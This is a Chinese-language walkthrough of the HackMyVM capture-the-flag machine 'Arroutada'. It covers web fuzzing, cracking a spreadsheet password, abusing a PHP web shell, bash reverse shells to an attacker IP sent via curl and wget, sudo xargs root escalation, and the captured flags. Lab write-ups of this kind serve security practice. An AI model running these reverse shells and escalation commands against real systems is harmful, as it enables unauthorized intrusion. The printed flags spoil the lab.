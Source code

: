 # Arroutada

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Arroutada

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

扫描后 http://192.168.5.39/scout/ 提示有一个路径 `/scout/******/docs/` 先用 seclists 的字典 ffuf 进行探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.5.39/scout/FUZZ/docs

http://192.168.5.39/scout/j2/docs/
```

找到路径，发现 http://192.168.5.39/scout/j2/docs/pass.txt 中显示 user:password ，另外一个路径 http://192.168.5.39/scout/j2/docs/shellfile.ods 下载后查看文件类型 shellfile.ods: OpenDocument Spreadsheet 用 olevba 查看没有宏代码，在线打开 ods 文件需要输入密码，输入 user:password 显示密码不对，可能这个是个密码的格式，需要自己构建字典。

在同列表中 http://192.168.5.39/scout/j2/docs/z206 中有内容：

```
Ignore z*, please
Jabatito
```

发现了一个用户名 Jabatito，同时上面的 `z*` 可能是提示密码不是 z 开头。

尝试使用 john + rockyou 破解 ods 文件密码：

```
libreoffice2john shellfile.ods > hash
```

找到密码: john11 浏览 ods 文件得到新的路径: /thejabasshell.php 访问后什么都没有，进行参数探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.39/thejabasshell.php?FUZZ=/etc/passwd
```

找到参数 a 访问 http://192.168.5.39/thejabasshell.php?a=1 提示 Error: Problem with parameter "b" 好像还有另外一个参数 b 需要提供内容，继续 fuzz：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://192.168.5.39/thejabasshell.php?a=1&b=FUZZ'
```

找到 b 的值为 pass 然后访问 curl 'http://192.168.5.39/thejabasshell.php?a=id&b=pass' 返回 www-data 可以执行命令，反弹到 kali，得到了 shell：

```
curl -G --data-urlencode 'b=pass' --data-urlencode 'a=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.39/thejabasshell.php
```

进行系统枚举，发现 crontab：

```
* * * * * drito /home/drito/service
```

但是没权限读取

发现 127.0.0.1 处有一个 8000 的 web 服务，nc 访问下首页：

```
<h1>Service under maintenance</h1>


<br>


<h6>This site is from ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>---.+++++++++++..<<++.>++.>-----------.++.++++++++.<+++++.>++++++++++++++.<+++++++++.---------.<.>>-----------------.-------.++.++++++++.------.+++++++++++++.+.<<+..</h6>

<!-- Please sanitize /priv.php -->
```

Brainfuck 解码：all HackMyVM hackers!!

访问 http://127.0.0.1:8000/priv.php 看看，源码中显示：

```
/*

$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}

*/
```

可以命令执行，使用 json 传递命令，目标机器上没有 curl，使用 wget 进行传递：

```
wget -q -O- --post-data '{"command":"/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\""}' --header "content-type: application/json" http://127.0.0.1:8000/priv.php
```

kali 上得到了反弹的连接，拿到了 user flag：

```
drito@arroutada:~$ cat user.txt
785f64437c6e1f9af6aa1afcc91ed27c
```

sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/xargs 可以直接提权到 root：

```
sudo xargs -a /dev/null sh

# cat root.txt
R3VuYXhmR2JGenlOYXFOeXlVbnB4WmxJWg==
```

base64 和 rot13 后解出 root flag ： ThanksToSmlAndAllHackMyVM
